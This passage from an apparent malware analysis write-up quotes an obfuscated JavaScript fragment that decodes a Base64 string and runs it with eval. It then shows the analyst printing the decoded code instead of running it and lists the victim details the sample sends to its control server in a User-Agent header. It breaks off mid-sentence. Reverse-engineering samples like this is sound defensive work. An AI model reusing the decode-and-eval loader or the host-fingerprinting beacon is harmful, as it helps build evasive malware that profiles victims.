 ```JS

var superString = r(201, 196, 188, 171, 170),

    encodedText = superString[r(207, 188, 194, 174, 173)](/codigo/g, "")[o(676, 685, 696, 661, 674)](/#!/g, "m"),

    decodedText = decodeBase64(encodedText);

  

eval(decodedText);

  

```

*Box3: piece of malware code executing variable in JS*

  

Thus I decoded the chunk instead of executing it and stored in another js file.

  

```JS

  

WScript.Echo(decodedText);

```

*Box4 : decoding the encoded chunk of malware code and printing it*

  

The decoded chunk of characters where another piece JS code. which indicated a lot more information. I analyzed this second piece of code and found that the HTTP POST request is generated and sent in this piece of code.

  

### C2 Communication

  

The `User-Agent` header value actually contains:

1. computer name

2. Username

3. operating system

4. antivirus info

5. if visual basic compiler exists

6. If the system is already infected with the malware

All these information were concatnated in a string such as below:
